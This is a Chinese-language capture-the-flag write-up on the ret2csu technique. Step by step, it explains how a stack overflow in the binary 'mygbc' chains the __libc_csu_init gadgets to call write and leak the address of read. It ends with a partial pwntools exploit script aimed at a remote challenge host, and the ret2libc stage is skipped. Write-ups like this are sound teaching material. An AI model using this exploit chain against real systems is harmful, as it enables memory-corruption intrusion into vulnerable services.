 ![](C:\Users\garhi\Pictures\微信截图_20241017143535.png)![](/images/70e2b7135112182072cbcae3e53c7cc4.png)

可以通过利用`csu1`部分和`csu2`部分来修改我们所需要的寄存器的内容从而达到`pop 对应寄存器`的效果：

！！！payload1讲解：

1、栈溢出返回至`csu1`部分的`pop rbx`指令，把0赋予`rbx`为了让后来call语句当中地址不受`rbx`影响

2、接着把1赋予`rbp`，后来rbx加1后与rbp相同从而不执行`jnz`语句

3、接着把1赋予`r12`，后来`r12`的值传给了`rdi`，`write`函数的第一个参数是文件描述符fd，1是标准输出即命令行输出

4、接着把从二进制文件当中获得的`read`函数的got表地址赋予r13，后来r13的值又传给了`rsi`，`write`函数的第二个参数是写入标准输出的数据来源缓冲区，有一个向地址内取值的操作，所以是got表而不是plt表

5、接着把8赋予`r14`，后来`r14`的值传给了`rdx`，`write`函数的第三个参数是读取字节数，8个字节够了

6、接着把从二进制文件中获得的`write`函数的got表地址赋予`r15`，也就是后来`call`语句后面的`[r15+rbx*8]`

（汇编语句当中"[ ]"表示地址，向地址内取值，所以这里填的`write`的got表）

7、跳到`csu2`部分的汇编指令继续执行

8、分别把`r14`、`r13`、`r12`的值传给了对应的寄存器，然后`call write`函数把`read`函数的真实地址输出了

9、由于没有`retn`语句，程序会接着往下执行到`csu1`部分的代码，但是我们这时需要返回到`main`函数当中，所以输入一些垃圾数据让接下来的几个`pop`指令pop掉，最后再接上`main`函数的返回地址，假装一切从未发生过（

这里有一个重点：有6个寄存器要pop掉，但是实际上payload里面塞了0x38(7*8)个'a'，这是因为在`pop`语句之前还有一个`add rsp,8`的语句将栈顶下移了八个字节，payload的0x38个'a'的前面8个是被跳过了没有被pop掉的

剩下的ret2libc步骤就跳过了，附上exp：（注意栈平衡）

```python
from pwn import *
from Crypto.Util.number import *

context.log_level='debug'

link=remote("8.147.129.74",34860)
# link=process("./mygbc") 
e=ELF("./mygbc")
libc=ELF("./libc.so.6")

csu1=0x4013AA
csu2=0x401390
pop_rdi=0x4013b3
ret=0x40101a

def ror(value,rotation,bits=8):
    rotation=rotation % bits
    return ((value >> rotation)|(value << (bits - rotation))) & ((1 << bits)-1)

def decrypt(value):
    res=ror(value,3)
    res=res^0x5A
    return long_to_bytes(res)

payload1=b'a'*0x18
payload1+=p64(csu1) #跳转到csu1部分
payload1+=p64(0)
payload1+=p64(1)
payload1+=p64(1)
payload1+=p64(e.got["read"])
payload1+=p64(8)
payload1+=p64(e.got["write"])
payload1+=p64(csu2)
payload1+=b'a'*0x38
payload1+=p64(e.sym["main"])

```